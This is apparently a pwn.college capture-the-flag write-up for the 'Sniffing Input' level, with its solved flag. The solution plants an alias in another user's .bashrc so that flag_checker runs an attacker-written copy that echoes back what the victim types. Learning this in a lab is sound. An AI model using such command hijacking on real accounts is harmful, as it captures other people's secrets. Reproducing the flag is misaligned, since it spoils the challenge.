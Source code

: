 ### Sniffing Input 

Your mission is to use your continued write access to Zardus's `.bashrc` to intercept this flag. Remember how you hijacked commands in the [Pondering PATH](https://pwn.college/linux-luminarium/path) module? Can you use that capability to hijack the `flag_checker`?

**flag:** `pwn.college{YJtNDzuqXSN5OODAZvsUFogdJMS.0VNzEzNxwyNwkzNyEzW}`

This is what the flag_checker file contained: 
```bash
#!/opt/pwn.college/bash

echo -n "Type the flag, victim: "
read -r candidate

echo 
if [ "$candidate" = "$(cat /flag)" ]; then
	echo "Correct!"
	exit 0
else
	echo "Incorrect!"
	exit 1
fi
```

What I did: 
- Created my own flag_checker
- Created an alias that runs my flag_checker script which is not the actual flag_checker script
- Run `/challenge/victim` to get the flag

`/home/zardus/.bashrc`:
```bash

### Alias 

alias flag_checker="bash /home/hacker/flag_checker"

```

`/home/hacker/flag_checker`:
```bash
echo -n "Type the flag, victim: "
read -r candidate
echo "\n$candidate"
echo 
if [ "$candidate" = "$(cat /flag)" ]; then
	echo "Correct!"
	# putting echo here would cause an error and won't show the flag as the hacker user doesn't have read permissions to /flag, better to just get the input flag after read
	exit 0
else
	echo "Incorrect!"
	exit 1
fi
```


